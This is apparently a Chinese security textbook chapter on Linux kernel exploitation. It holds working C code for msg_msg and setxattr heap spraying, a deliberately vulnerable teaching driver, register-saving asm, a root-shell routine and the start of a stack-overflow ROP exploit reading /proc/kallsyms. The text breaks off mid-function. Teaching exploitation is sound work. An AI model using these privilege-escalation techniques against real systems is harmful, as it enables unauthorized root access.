





# 第31章 高级漏洞利用技术

## 31.1 内核漏洞利用

### 31.1.1 内核漏洞利用概述

内核漏洞利用是网络安全攻防体系中最高级别的技术之一。与用户态漏洞利用不同，内核漏洞利用直接作用于操作系统的核心组件——内核（Kernel），一旦成功即可获得系统的最高权限（Ring 0 / Kernel Mode）。这意味着攻击者可以完全绕过操作系统的所有安全机制，包括文件权限、进程隔离、SELinux/AppArmor 强制访问控制等。

内核漏洞利用的复杂性和危险性都远高于用户态漏洞，原因有三：

1. **容错率极低**：用户态漏洞利用失败通常只导致进程崩溃，但内核漏洞利用中的任何内存错误都可能导致 Kernel Panic（Linux）或 Blue Screen of Death（Windows），使整台机器宕机。
2. **保护机制更密集**：现代内核部署了 KASLR、SMEP、SMAP、KPTI、Stack Canary、CFI 等多层防护，每绕过一层都需要额外的技术手段。
3. **调试难度大**：内核态调试需要特殊的工具链（如 QEMU + GDB 远程调试），且内核行为受多核并发、中断上下文、调度器等因素影响，复现条件苛刻。



#### 内核漏洞分类体系

内核漏洞可以从多个维度进行分类：

| 漏洞类型 | 攻击原理 | 典型利用方式 | 难度等级 |
|---------|---------|------------|---------|
| 栈溢出 (Stack Overflow) | 内核栈缓冲区越界写入 | 覆盖返回地址 → ROP | ⭐⭐⭐ |
| 堆溢出 (Heap Overflow) | 内核堆对象越界写入 | 覆盖相邻对象元数据/数据 | ⭐⭐⭐⭐ |
| Use-After-Free (UAF) | 释放后继续使用悬垂指针 | 堆喷射 → 伪造对象劫持控制流 | ⭐⭐⭐⭐ |
| Double-Free | 同一内核对象被释放两次 | 堆元数据腐败 → 任意读写 | ⭐⭐⭐⭐ |
| 竞争条件 (Race Condition) | TOCTOU 时序竞争 | 双线程利用时间窗口 | ⭐⭐⭐⭐⭐ |
| 整数溢出 (Integer Overflow) | 整数运算导致回绕/截断 | 缓冲区分配不足 → 溢出 | ⭐⭐⭐ |
| 空指针解引用 | 内核未校验空指针 | 映射零页 → 伪造内核对象 | ⭐⭐ |
| 信息泄露 (Info Leak) | 未初始化内存或越界读 | 泄露内核地址 → 绕过 KASLR | ⭐⭐ |

#### 内核漏洞利用的通用方法论

无论具体漏洞类型如何，内核漏洞利用通常遵循以下通用流程：



**阶段 1：信息收集** — 确定内核版本、编译选项、已部署的保护机制，查找可用的内核符号地址。

**阶段 2：漏洞触发** — 构造精确的输入或操作序列触发漏洞，通常需要在 QEMU 虚拟机中反复测试。

**阶段 3：信息泄露** — 利用漏洞泄露内核地址信息（如内核基址、堆地址），绕过 KASLR 随机化。

**阶段 4：控制流劫持** — 通过 ROP（Return-Oriented Programming）或 JOP（Jump-Oriented Programming）技术劫持内核执行流。

**阶段 5：权限提升** — 执行 `commit_creds(prepare_kernel_cred(0))` 将当前进程的凭证设置为 root。

**阶段 6：返回用户态** — 通过 `swapgs` + `iretq` 安全返回用户态，获取 root shell。

#### Linux vs Windows 内核利用差异

| 特性 | Linux 内核 | Windows 内核 |
|-----|-----------|-------------|
| 源码可获取 | 是（开源） | 否（逆向分析） |
| 主要攻击面 | 系统调用、驱动、eBPF | Win32k、驱动、WDF |
| 提权函数 | `commit_creds(prepare_kernel_cred(0))` | `TOKEN` 结构篡改 |
| 常用原语 | `/proc/kallsyms`、`msg_msg`、`pipe_buffer` | `NtQuerySystemInformation` |
| 保护机制 | KASLR, SMEP/SMAP, KPTI, CFI | KASLR, CFG, KDP, HVCI |

---

### 31.1.2 Linux 内核内存布局与堆管理

理解 Linux 内核的内存布局是进行内核漏洞利用的基础。没有这个基础，后续的 ROP 链构造、堆布局操控等技术都无从谈起。

#### x86_64 内核内存布局

在 x86_64 架构下，虚拟地址空间被划分为用户空间和内核空间两部分，其中高 128 TB 为内核空间：

```text
┌─────────────────────────────────────────────────────────────┐
│  0x0000000000000000 ─ 0x00007FFFFFFFFFFF  用户空间 (128TB)   │
│  (可被用户态和内核态访问)                                      │
├─────────────────────────────────────────────────────────────┤
│  0xFFFF800000000000 ─ 0xFFFFFFFFFFFFFFFF  内核空间 (128TB)   │
│                                                               │
│  ┌─────────────────────────────────────────────────────────┐ │
│  │ 0xFFFF888000000000  直接映射区 (Direct Mapping)          │ │
│  │   物理内存的线性映射，几乎所有物理内存都映射在这里           │ │
│  │   vmalloc、内核模块、SLUB 堆都在此区域                    │ │
│  ├─────────────────────────────────────────────────────────┤ │
│  │ 0xFFFFC88000000000  vmalloc 区域                        │ │
│  │   vmalloc() 分配的内存映射于此                            │ │
│  ├─────────────────────────────────────────────────────────┤ │
│  │ 0xFFFFFFFF80000000  内核代码段 (.text)                   │ │
│  │   vmlinux 内核镜像，约 512MB                             │ │
│  ├─────────────────────────────────────────────────────────┤ │
│  │ 0xFFFFFFFFA0000000  内核模块映射区域                      │ │
│  │   loadable kernel modules (.ko)                         │ │
│  └─────────────────────────────────────────────────────────┘ │
└─────────────────────────────────────────────────────────────┘
```

**关键点：直接映射区 (Direct Mapping)**

直接映射区是内核漏洞利用中最关键的内存区域。物理内存的前 `__pa_node_offset` 到 `__pa(high_memory)` 被线性映射到虚拟地址 `0xFFFF888000000000` 起始位置。这个映射满足：

```text
virt_addr = phys_addr + PAGE_OFFSET  (即 0xFFFF888000000000)
```

这意味着，如果攻击者能泄露直接映射区中的任意地址，就能计算出物理内存地址，进而构造对任意物理地址的读写。这是许多现代内核利用的核心原语之一。

#### 获取内核内存布局信息

```c
/*
 * 读取内核内存布局信息 —— 这是内核漏洞利用的第一步
 *
 * /proc/iomem：物理内存映射表，显示各物理内存区域的用途
 * /proc/kallsyms：内核符号表，包含所有内核函数和全局变量的地址
 * /proc/kallsyms 的访问受 kptr_restrict 控制：
 *   kptr_restrict = 0：所有地址可见
 *   kptr_restrict = 1：非特权进程的地址显示为 0
 *   kptr_restrict = 2：所有地址对非特权进程显示为 0
 */
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

void read_kernel_memory_layout() {
    FILE *fp;
    char line[256];

    /* 读取物理内存映射 */
    fp = fopen("/proc/iomem", "r");
    if (fp == NULL) {
        perror("Failed to open /proc/iomem");
        return;
    }

    printf("=== Physical Memory Map ===\n");
    printf("===========================\n");
    while (fgets(line, sizeof(line), fp)) {
        printf("%s", line);
    }
    fclose(fp);

    /* 读取内核符号表 —— 攻击者用来获取关键函数地址 */
    fp = fopen("/proc/kallsyms", "r");
    if (fp == NULL) {
        perror("Failed to open /proc/kallsyms");
        printf("[*] Hint: echo 0 > /proc/sys/kernel/kptr_restrict\n");
        return;
    }

    printf("\n=== Kernel Symbols (first 50) ===\n");
    printf("=================================\n");
    int count = 0;
    while (fgets(line, sizeof(line), fp) && count < 50) {
        printf("%s", line);
        count++;
    }
    fclose(fp);
}

/*
 * 检查内核保护机制配置
 *
 * 编译在 /boot/config-$(uname -r) 中，决定了内核的防护等级
 * 了解目标内核的保护机制是选择利用策略的前提
 */
void check_kernel_config() {
    char cmd[256];
    char line[256];

    const char *options[] = {
        "CONFIG_KASLR",
        "CONFIG_RANDOMIZE_BASE",
        "CONFIG_X86_SMEP",
        "CONFIG_X86_SMAP",
        "CONFIG_STACKPROTECTOR",
        "CONFIG_STACKPROTECTOR_STRONG",
        "CONFIG_PAGE_TABLE_ISOLATION",
        "CONFIG_CFI_CLANG",
        "CONFIG_SHADOW_CALL_STACK",
        "CONFIG_HARDENED_USERCOPY",
        NULL
    };

    printf("=== Kernel Protection Mechanisms ===\n");
    for (int i = 0; options[i] != NULL; i++) {
        snprintf(cmd, sizeof(cmd),
            "grep '%s' /boot/config-$(uname -r) 2>/dev/null",
            options[i]);
        FILE *fp = popen(cmd, "r");
        if (fp) {
            if (fgets(line, sizeof(line), fp)) {
                printf("  [+] %s\n", line);
            } else {
                printf("  [-] %s: not found\n", options[i]);
            }
            pclose(fp);
        }
    }
}
```

#### SLUB 堆管理器

Linux 内核使用 SLUB（Unqueued Slab Allocator）分配器管理内核堆内存。理解 SLUB 的工作原理是掌握内核堆漏洞利用的关键。

**SLUB 分配器层次结构：**



**SLUB 核心数据结构：**

```c
/*
 * SLUB 分配器核心数据结构
 *
 * struct kmem_cache 是 SLUB 的核心管理结构，每个 slab 缓存对应一个
 * 它定义了对象大小、对齐方式、空闲列表管理策略等
 *
 * 理解这个结构有助于：
 * 1. 精确计算堆喷射时需要分配的对象大小
 * 2. 理解 freelist 指针的布局，构造 fake freelist
 * 3. 分析 slab poisoning / red zone 等调试特性
 */
struct kmem_cache {
    struct kmem_cache_cpu __percpu *cpu_slab;  /* 每CPU slab缓存 */
    slab_flags_t flags;                        /* 缓存标志 (SLAB_HWCACHE_ALIGN等) */
    unsigned long min_partial;                  /* partial list 最小页数 */
    unsigned int size;                          /* 对象总大小 (含元数据) */
    unsigned int object_size;                   /* 实际对象大小 */
    struct reciprocal_value reciprocal_size;    /* 快速除法优化 */
    unsigned int offset;                        /* freelist 空闲指针偏移 */
    struct kmem_cache_order_objects oo;          /* 最优配置: 页数 + 对象数 */
    struct kmem_cache_order_objects min;         /* 最小配置 */
    gfp_t allocflags;                           /* 分配标志 */
    int refcount;                               /* 引用计数 */
    void (*ctor)(void *);                        /* 构造函数 */
    unsigned int inuse;                         /* 使用中数据的偏移 */
    unsigned int align;                         /* 对齐要求 */
    const char *name;                           /* 缓存名称 (如 "task_struct") */
    struct list_head list;                      /* 全局缓存链表节点 */
    struct kmem_cache_node *node[MAX_NUMNODES]; /* 每NUMA节点的partial链表 */
};

/*
 * SLUB freelist 对象头布局 (freelist pointer 嵌入在空闲对象中)
 *
 * 对于标准 SLUB 配置，freelist 指针存储在空闲对象的起始位置：
 *
 * 空闲对象布局:
 * +-------------------+  <-- 对象起始地址
 * | freelist pointer  |  <-- 指向下一个空闲对象 (或 NULL)
 * +-------------------+
 * |      ...          |
 * +-------------------+
 *
 * 在 CONFIG_SLAB_FREELIST_HARDENED 启用时：
 * freelist pointer 会被 XOR 加密：
 * real_ptr = encoded_ptr ^ random_cookie
 *
 * 在 CONFIG_SLAB_FREELIST_RANDOM 启用时：
 * 空闲对象的分配顺序会被随机化
 */
```

#### SLUB 堆喷射技术

堆喷射（Heap Spraying）是内核漏洞利用中的核心技术，目的是在内核堆上大量分配相同大小的对象，使得释放的对象大概率被喷射对象"覆盖"。

**主要的堆喷射原语：**

| 喷射原语 | 分配大小控制 | 数据可控性 | 释放时机 | 适用场景 |
|---------|-----------|-----------|---------|---------|
| `kmalloc-N` (ioctl等) | 受限于缓存粒度 | 高 | ioctl close | 快速填充特定 slab |
| `msg_msg` (msgsnd) | 48字节步进 | mtext完全可控 | msgrcv释放 | UAF堆喷射、信息泄露 |
| `setxattr` | 精确控制 | xattr值完全可控 | removexattr释放 | 精确大小的堆喷射 |
| `sendmsg (sendmsg)` | 需构造辅助结构 | 中等 | 关闭socket | 补充喷射 |
| `pipe_buffer` | 4KB 页粒度 | 页内容可控 | 读取 pipe | 覆盖相邻页元数据 |
| `sk_buff` | 较大对象 (>=256) | 数据部分可控 | 关闭socket | 大对象覆盖 |

**msg_msg 堆喷射详解：**

`msg_msg` 是 POSIX 消息队列的内核数据结构，大小为 48 字节头部 + mtext 数据。通过 `msgsnd()` 系统调用，攻击者可以精确控制分配到内核堆上的对象大小和内容。

```c
/*
 * msg_msg 堆喷射实现
 *
 * 原理：
 * 1. msgsnd() 在内核中调用 kmalloc 分配 msg_msg 结构体
 * 2. 分配大小 = sizeof(struct msg_msg) + mtext_len
 * 3. msg_msg 结构体布局（48字节）：
 *    +0x00  void *next
 *    +0x08  void *prev
 *    +0x10  long m_type
 *    +0x18  size_t m_ts        <-- 关键字段：消息大小
 *    +0x20  struct list_head m_list
 *    +0x30  void *security
 *    +0x38  char mtext[]       <-- 数据开始
 *
 * 利用要点：
 * - 通过修改 m_ts 可以实现越界读（out-of-bound read）
 * - 通过伪造 msg_msg 结构体可以实现任意读写
 * - 不同 mtext 长度可以分配到不同大小的 slab 缓存
 */
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include <sys/ipc.h>
#include <sys/msg.h>

#define MSG_SPRAY_COUNT 256

struct kernel_msg {
    long mtype;              /* 消息类型，必须 > 0 */
    char mtext[0x100];       /* 消息数据 */
};

int spray_msg_msg(int count, int mtext_size) {
    int msqid = msgget(IPC_PRIVATE, 0644 | IPC_CREAT);
    if (msqid == -1) {
        perror("msgget failed");
        return -1;
    }

    struct kernel_msg msg;
    msg.mtype = 1;
    memset(msg.mtext, 'A', sizeof(msg.mtext));

    for (int i = 0; i < count; i++) {
        if (msgsnd(msqid, &msg, mtext_size, 0) == -1) {
            perror("msgsnd failed");
            return -1;
        }
    }

    printf("[*] Sprayed %d msg_msg objects (mtext_size=%d, total=%zu)\n",
           count, mtext_size, sizeof(long) + mtext_size);
    return msqid;
}

/*
 * 通过 msgrcv 精确控制释放时机
 *
 * msgrcv 会从消息队列取出消息并释放对应的内核 msg_msg 结构体
 * 这使得攻击者可以：
 * 1. 分配一批喷射对象
 * 2. 释放特定索引的对象（制造 UAF 空洞）
 * 3. 立即分配新对象填充该空洞
 */
void free_specific_msg(int msqid, int index, int mtext_size) {
    char buf[0x100];
    for (int i = 0; i <= index; i++) {
        if (msgrcv(msqid, buf, mtext_size, 1, (i == index) ? 0 : IPC_NOWAIT) == -1) {
            if (i < index) continue;  /* 跳过空消息 */
            perror("msgrcv failed");
            return;
        }
    }
    printf("[*] Freed msg_msg at index %d\n", index);
}
```

**setxattr 堆喷射详解：**

`setxattr` 系统调用可以在指定文件/目录上设置扩展属性。内核在处理用户传入的属性名和值时，会在内核堆上分配内存。这种方法的优势在于分配大小完全精确可控。

```c
/*
 * setxattr 堆喷射
 *
 * 原理：
 * setxattr(path, name, value, size, position) 中：
 * - name 和 value 都由用户空间传入
 * - 内核会为 name + value + xattr 结构体分配堆内存
 * - 分配大小 ≈ name_len + value_len + sizeof(kern_xattr)
 *
 * 优势：
 * 1. 大小精确可控（name 长度 + value 长度）
 * 2. 数据完全可控（value 的内容就是我们要写入的内容）
 * 3. 释放时机可控（removexattr 释放）
 * 4. 可以喷射任意 slab 大小
 *
 * 注意：
 * - 需要目标文件系统支持扩展属性（ext4, tmpfs 等）
 * - /tmp 目录通常使用 tmpfs，支持 xattr
 */
#include <sys/xattr.h>

int spray_with_setxattr(size_t alloc_size, void *data, size_t data_size) {
    /* 构造 xattr name，使总分配大小 = alloc_size */
    size_t name_len = alloc_size - data_size - 64;  /* 64 ≈ 内核 xattr 结构体开销 */
    if (name_len < 1 || name_len > 255) {
        printf("[-] Invalid alloc_size: %zu\n", alloc_size);
        return -1;
    }

    char *name = malloc(name_len + 16);
    if (!name) return -1;

    memset(name, 'A', name_len);
    snprintf(name + name_len, 16, "user.exploit");

    int ret = setxattr("/tmp", name, data, data_size, 0);
    if (ret < 0) {
        perror("setxattr");
    } else {
        printf("[*] setxattr spray: alloc_size=%zu, name_len=%zu, data_size=%zu\n",
               alloc_size, name_len, data_size);
    }

    free(name);
    return ret;
}

/*
 * 批量 setxattr 喷射 —— 用于填充目标 slab
 * 每次 setxattr 分配一个对象，批量执行可以占满整个 freelist
 */
void batch_setxattr_spray(size_t obj_size, int count, unsigned long fill_value) {
    void *data = malloc(obj_size);
    if (!data) return;

    /* 用可控数据填充，其中嵌入要写入的目标值 */
    memset(data, 0x41, obj_size);
    *(unsigned long *)data = fill_value;

    for (int i = 0; i < count; i++) {
        spray_with_setxattr(obj_size, data, obj_size);
    }

    free(data);
    printf("[*] Batch setxattr spray: %d objects of size %zu\n", count, obj_size);
}
```

---

### 31.1.3 内核栈溢出利用

内核栈溢出是最经典的内核漏洞类型之一。当内核驱动或子系统在处理用户态传入的数据时，未正确验证数据长度，就可能导致内核栈上的缓冲区溢出。

#### 漏洞成因分析

```c
/*
 * 漏洞驱动示例 —— 存在栈溢出漏洞
 *
 * 这是一个教学用的漏洞驱动，展示栈溢出漏洞的根因：
 * 没有检查 copy_from_user 的第三个参数（要拷贝的字节数）是否超过缓冲区大小
 *
 * 漏洞根因：
 * 1. 缓冲区大小固定为 64 字节
 * 2. 用户通过 ioctl 传入的 arg 指向的数据最大为 256 字节
 * 3. copy_from_user 没有 size 校验
 *
 * // vulnerable_driver.c — 编译为 .ko 模块
 * #include <linux/module.h>
 * #include <linux/kernel.h>
 * #include <linux/fs.h>
 * #include <linux/uaccess.h>
 * #include <linux/ioctl.h>
 *
 * #define DEVICE_NAME "vuln_dev"
 * #define IOCTL_VULN _IOW('V', 0x37, struct vuln_data)
 *
 * struct vuln_data {
 *     size_t len;
 *     char data[64];
 * };
 *
 * static int device_ioctl(struct file *file, unsigned int cmd,
 *                          unsigned long arg) {
 *     struct vuln_data ud;
 *     char buf[64];
 *
 *     switch (cmd) {
 *     case IOCTL_VULN:
 *         // 漏洞：直接 copy_from_user 256 字节到 64 字节的 buf
 *         if (copy_from_user(buf, (void __user *)arg, 256)) {
 *             return -EFAULT;
 *         }
 *         // ... 处理 buf 中的数据
 *         break;
 *     }
 *     return 0;
 * }
 */

/* exploit.c — 用户态利用代码 */
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <fcntl.h>
#include <sys/ioctl.h>
#include <signal.h>

#define DEVICE_PATH "/dev/vuln_dev"
#define IOCTL_VULN _IOW('V', 0x37, struct vuln_data)

/*
 * 内核栈布局 (x86_64)
 *
 * 高地址
 * +------------------+
 * |   返回地址        |  <-- 目标：覆盖这里
 * +------------------+
 * |   保存的 RBP      |  <-- 中间需要跳过
 * +------------------+
 * |                  |
 * |   buf[64]        |  <-- 溢出起点
 * |                  |
 * +------------------+
 * 低地址
 *
 * 覆盖偏移 = 64 (buf) + 8 (saved rbp) = 72 字节
 * 第 73~80 字节：返回地址
 */
```

#### 寄存器状态保存与恢复

在内核漏洞利用中，控制流劫持成功后需要安全返回用户态执行后续操作（如获取 root shell）。这需要使用 `iretq` 指令恢复用户态的 CS、SS、RFLAGS、RSP、RIP 寄存器。在此之前必须保存用户态寄存器状态：

```c
/*
 * 保存用户态寄存器状态 —— 这是内核漏洞利用的标准起手式
 *
 * 为什么要保存这些寄存器？
 * - CS/SS：用户态的代码段/栈段选择子，iretq 需要它们来恢复到用户态
 * - RSP：用户态的栈指针，返回后需要在用户态栈上执行
 * - RFLAGS：标志寄存器，保存中断状态等
 *
 * 为什么用 inline asm？
 * - 用户态 C 代码无法直接读取 CS/SS 寄存器
 * - 必须通过特权指令 `mov %cs, %rax` 读取
 */
unsigned long user_cs, user_ss, user_rsp, user_rflags;

static void save_state(void) {
    __asm__ __volatile__(
        "mov %%cs,  %0\n"
        "mov %%ss,  %1\n"
        "mov %%rsp, %2\n"
        "pushfq\n"
        "pop %3\n"
        : "=r"(user_cs), "=r"(user_ss),
          "=r"(user_rsp), "=r"(user_rflags)
        :
        : "memory"
    );
    printf("[*] Saved user state: CS=0x%lx SS=0x%lx RSP=0x%lx RFLAGS=0x%lx\n",
           user_cs, user_ss, user_rsp, user_rflags);
}

/*
 * 通用 get_root_shell 函数
 *
 * 功能：尝试获取 root shell
 * 使用方法：将此函数的地址作为 ROP 链的返回目标
 *
 * 注意：此函数在用户态执行，但内核态 ROP 链会跳转到它
 * 所以它不能使用任何需要内核态权限的操作
 */
static void get_root_shell(void) {
    printf("[+] Got root!\n");
    char *argv[] = {"/bin/sh", NULL};
    char *envp[] = {NULL};
    execve("/bin/sh", argv, envp);
    _exit(1);
}
```

#### 构造 ROP 链实现提权

ROP（Return-Oriented Programming）是内核漏洞利用中最核心的技术。通过在内核代码段中找到以 `ret` 结尾的指令片段（gadget），将它们串联起来实现任意代码执行。

**内核 ROP 链的标准结构：**


```c
/*
 * 完整的内核栈溢出利用 —— ROP 链构造
 *
 * 核心提权路径：
 * 1. prepare_kernel_cred(NULL) → 返回 init_cred (uid=0, gid=0) 的副本
 * 2. commit_creds(new_cred) → 将当前进程的 cred 替换为 new_cred
 * 3. swapgs → 恢复 GS 段寄存器（从内核态 GS 切换回用户态 GS）
 * 4. iretq → 中断返回，恢复用户态 CS/SS/RIP/RSP/RFLAGS
 */
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <fcntl.h>
#include <sys/ioctl.h>

#define DEVICE_PATH "/dev/vuln_dev"
#define IOCTL_VULN _IOW('V', 0x37, struct vuln_data)

struct vuln_data {
    size_t len;
    char data[64];
};

/* 从 /proc/kallsyms 获取内核符号地址 */
static unsigned long resolve_symbol(const char *name) {
    FILE *fp;
    char line[256];
    unsigned long addr = 0;

    fp = fopen("/proc/kallsyms", "r");
    if (!fp) {
        perror("Failed to open /proc/kallsyms");
        printf("[*] Hint: echo 0 > /proc/sys/kernel/kptr_restrict\n");
        return 0;
    }

    while (fgets(line, sizeof(line), fp)) {
        unsigned long a;
        char type;
        char sym[256];
